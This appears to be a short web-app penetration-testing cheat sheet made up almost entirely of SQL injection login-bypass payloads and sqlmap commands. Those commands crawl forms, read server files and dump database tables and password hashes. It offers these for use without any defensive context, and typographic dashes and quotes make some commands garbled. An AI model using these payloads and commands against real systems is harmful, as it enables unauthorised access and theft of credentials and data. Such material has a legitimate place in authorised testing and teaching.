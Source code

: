 # WebApp

## SQLInjections

Common Injections for Login Forms:
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```

## domain-to-webapp
```
./webAppChecker www.example.com ./ouput_dir ./scope.txt
```

## SQLMAP

Automated scan
```
sqlmap -u http://example.com –forms –batch –crawl=10 –cookie=jsessionid=54321 –level=5 –risk=3
```

Targeted scan
```
sqlmap -u http://example.com -p PARAM –data=POSTDATA –cookie=COOKIE –level=3 –current-user –current-db –passwords –file-read=”/var/www/blah.php”
```

Scan url for union AND error based injection with MYSQL backend AND use a random user agent AND database dump
```
sqlmap -u “http://example.com/vuln.php?id=1” –dbms=mysql –tech=U –random-agent –dump
```

Find forms for injections
```
sqlmap -o -u “http://meh.com/form/” –forms
```

Dump + crack hashes for table users on database-name
```
sqlmap -o -u “http://meh/vuln-form” –forms -D database-name -T users –dump
```

Flushes the session
```
sqlmap --flush session
```
